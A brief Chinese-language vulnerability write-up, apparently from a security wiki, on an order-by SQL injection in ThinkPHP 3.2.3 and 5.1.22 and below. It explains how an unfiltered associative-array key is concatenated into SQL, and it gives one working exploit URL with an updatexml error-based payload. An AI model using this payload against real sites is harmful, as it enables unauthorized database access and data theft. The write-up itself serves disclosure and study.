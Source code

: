 Thinkphp 3.x order by 注入漏洞
==============================

一、漏洞简介
------------

ThinkPHP在处理order
by排序时，当排序参数可控且为关联数组(key-value)时，由于框架未对数组中key值作安全过滤处理，攻击者可利用key构造SQL语句进行注入，该漏洞影响ThinkPHP
3.2.3、5.1.22及以下版本。

二、漏洞影响
------------

ThinkPHP 3.2.3、5.1.22及以下版本。

三、复现过程
------------

ThinkPHP3.2.3漏洞代码（/Library/Think/Db/Driver.class.php）：

![](./resource/Thinkphp3.xorderby注入漏洞/media/rId24.png)

ThinkPHP 5.1.22漏洞代码（framework/library/think/db/Query.php）：

![](./resource/Thinkphp3.xorderby注入漏洞/media/rId25.png)

从上面漏洞代码可以看出，当\$field参数为关联数组（key-value）时，key值拼接到返回值中，SQL语句最终绕过了框架安全过滤得以执行。

### ThinkPHP 3.2.3

访问如下URL即可进行漏洞利用：

    http://www.0-sec.org/ThinkPHP/?order[updatexml(1,concat(0x3a,user()),1)]=1

![](./resource/Thinkphp3.xorderby注入漏洞/media/rId27.png)

参考链接
--------

> <https://mp.weixin.qq.com/s?__biz=MzIwNTcxNTczMQ==&mid=2247483907&idx=1&sn=3c1f9874878c92d10cff30c1c263fa8a&scene=21#wechat_redirect>
